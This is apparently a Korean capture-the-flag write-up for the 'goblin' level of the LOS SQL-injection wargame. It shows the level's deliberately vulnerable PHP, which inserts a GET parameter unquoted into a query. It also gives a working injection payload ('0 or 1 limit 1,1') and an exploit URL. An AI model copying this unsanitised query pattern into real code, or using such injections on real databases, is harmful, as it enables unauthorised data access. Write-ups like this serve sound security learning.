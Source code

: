 # **LOS goblin**

## <img src="./img/key.png" width="25"> **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
`id` 값이 `guest` 로 고정되고 `no` 값이 테이블 내에 `id` 값과 일치 하다면 `hi $id `를 출력한다. 우선 `no` 에 무작위로 값을 대입해보겠다.
+ no = 0

<img src="./img/goblin1.png" width="700">

+ no = 1

<img src="./img/goblin2.png" width="700">

아마 `no = 0` 이 `admin` 이고, `no = 1` 이 `guest` 인 것같다.  
쿼리에 0 or 1 을 넣어 참이 되는지 확인해 보겠다.

+ no = 0 or 1

<img src="./img/goblin3.png" width="700">

값이 참이 된다. 따라서 `LIMIT` 를 이용해서 `admin` 값을 추출하면 해결된다. 

**※ LIMIT**  
LIMIT a,b  
a 번 인덱스 쿼리부터 b 개 만큼 출력하겠다는 의미


## <img src="./img/road.png" width="25"> **Query**
>Query
```php
select id from prob_goblin where id='guest' and no=0 or 1 limit 1,1
```

>Input value
```
http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%201%20limit%201,1
```

## <img src="./img/attack.png" width="25"> **Attack**
<img src="./img/goblin4.png" width="700">